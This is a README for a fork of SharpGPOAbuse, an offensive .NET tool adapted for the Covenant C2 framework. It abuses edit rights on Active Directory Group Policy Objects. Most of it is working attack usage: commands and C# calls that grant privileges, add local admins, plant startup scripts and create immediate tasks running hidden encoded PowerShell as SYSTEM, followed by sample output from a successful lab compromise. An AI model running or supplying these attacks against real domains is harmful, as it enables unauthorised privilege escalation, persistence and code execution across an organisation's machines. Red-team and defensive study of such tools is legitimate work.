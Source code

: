 # SharpGPOAbuse

SharpGPOAbuse is a .NET application written in C# that can be used to take advantage of a user's edit rights on a Group Policy Object (GPO) in order to compromise the objects that are controlled by that GPO.

More details can be found at the following blog post: [https://labs.f-secure.com/tools/sharpgpoabuse](https://labs.f-secure.com/tools/sharpgpoabuse)

This fork of a fork provides some modifications for use with Covenant's Grunts. The most notable changes are removing the `Environment.Exit()` calls that will kill a Grunt (since they do not create sacrificial processes for post-ex jobs), removing the dependency for CommandLineParser, and the implementation of a custom parser. Because Covenant splits on spaces, the Assembly will combine all arguments and attempt to parse out options based on equal signs. For this reason, arguments are passed via `specialkeyword=Any Value`. There may be edge cases with the parser but the Assembly will tell you which options it interpreted.

## Compile Instructions

SharpGPOAbuse has been built against .NET 3.5 and is compatible with Visual Studio 2017 & 2019. Simply open the solution file and build the project.

## Usage

You can use the following CLI interface. The Assembly attempts to parse out options based on equal signs and special keywords so you do not need to (and should not) escape anything or use quotes.

```
SharpGPOAbuse (Friendly Fork)

  AddNewRights:
    SharpGPOAbuse.exe attack=AddNewRights gponame=Vuln GPO useraccount=SomeAccount userrights=someright1,someright2,someright3
  NewLocalAdmin:
    SharpGPOAbuse.exe attack=NewLocalAdmin gponame=Vuln GPO useraccount=SomeAccount
  NewStartupScript:
    SharpGPOAbuse.exe attack=NewStartupScript gponame=Vuln GPO scriptname=ScriptName scriptcontent=my script content type=User
  NewImmediateTask:
    SharpGPOAbuse.exe attack=NewImmediateTask gponame=Vuln GPO author=NT AUTHORITY\SYSTEM taskname=My Special Task command=C:\some\path\to.exe arguments=some cli args type=Computer force=True
```

## Attacks Types

Currently SharpGPOAbuse supports the following options:

| Option                                                            | Description                          |
| ----------------------------------------------------------------- | ------------------------------------ |
| [AddUserRights](#adding-user-rights)                              | Add rights to a user                 |
| [AddLocalAdmin](#adding-a-local-admin)                            | Add a user to the local admins group |
| [AddComputerScript](#configuring-a-user-or-computer-logon-script) | Add a new computer startup script    |
| [AddUserScript](#configuring-a-user-or-computer-logon-script)     | Configure a user logon script        |
| [AddComputerTask](#configuring-a-computer-or-user-immediate-task) | Configure a computer immediate task  |
| [AddUserTask](#configuring-a-computer-or-user-immediate-task)     | Add an immediate task to a user      |

## Attack Options

### Adding User Rights

```c#
string[] UserRights = { "", "" };
string UserAccount = "";
string GPOName = "";

UserRightAssignment.AddNewRights(DomainName, DomainController, GPOName, DistinguishedName, UserRights, UserAccount);
```

`UserRights` can be any of the following:

```
SeTrustedCredManAccessPrivilege, SeNetworkLogonRight, SeTcbPrivilege, SeMachineAccountPrivilege, SeIncreaseQuotaPrivilege, SeInteractiveLogonRight, SeRemoteInteractiveLogonRight, SeBackupPrivilege, SeChangeNotifyPrivilege, SeSystemtimePrivilege, SeTimeZonePrivilege, SeCreatePagefilePrivilege, SeCreateTokenPrivilege, SeCreateGlobalPrivilege, SeCreatePermanentPrivilege, SeCreateSymbolicLinkPrivilege, SeDebugPrivilege, SeDenyNetworkLogonRight, SeDenyBatchLogonRight, SeDenyServiceLogonRight, SeDenyInteractiveLogonRight, SeDenyRemoteInteractiveLogonRight, SeEnableDelegationPrivilege, SeRemoteShutdownPrivilege, SeAuditPrivilege, SeImpersonatePrivilege, SeIncreaseWorkingSetPrivilege, SeIncreaseBasePriorityPrivilege, SeLoadDriverPrivilege, SeLockMemoryPrivilege, SeBatchLogonRight, SeServiceLogonRight, SeSecurityPrivilege, SeRelabelPrivilege, SeSystemEnvironmentPrivilege, SeManageVolumePrivilege, SeProfileSingleProcessPrivilege, SeSystemProfilePrivilege, SeUndockPrivilege, SeAssignPrimaryTokenPrivilege, SeRestorePrivilege, SeShutdownPrivilege, SeSyncAgentPrivilege, SeTakeOwnershipPrivilege
```

### Adding a Local Admin

```c#
string UserAccount = "";
string GPOName = "";

LocalAdmin.NewLocalAdmin(UserAccount, DomainName, DomainController, GPOName, DistinguishedName, false);
```

### Configuring a User or Computer Logon Script

```c#
string ScriptName = "Startup.bat";
string ScriptContent = "powershell.exe -Sta -Nop -Window Hidden -EncodedCommand <>";
string GPOName = "";

StartupScript.NewStartupScript(ScriptName, ScriptContent, DomainName, DomainController, GPOName, DistinguishedName, "User");
```

### Configuring a Computer or User Immediate Task

```c#
string TaskName = "";
string Author = "NT AUTHORITY\\SYSTEM";
string Command = "powershell.exe";
string Arguments = "-Sta -Nop -Window Hidden -EncodedCommand <>";
string GPOName = "";

ScheduledTask.NewImmediateTask(DomainName, DomainController, GPOName, DistinguishedName, TaskName, Author, Arguments, Command, false, "Computer");
```

## Example Output

```
[+] Domain = prod.zeropointsecurity.local
[+] Domain Controller = tf-win-dc02.prod.zeropointsecurity.local
[+] Distinguished Name = CN=Policies,CN=System,DC=prod,DC=zeropointsecurity,DC=local
[+] GUID of Server Baseline is: {205F0E03-17C3-4E9B-925E-330FAD565CA1}
[+] Creating new startup script...
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new startup script. Wait for the GPO refresh cycle.
[+] Done!
```
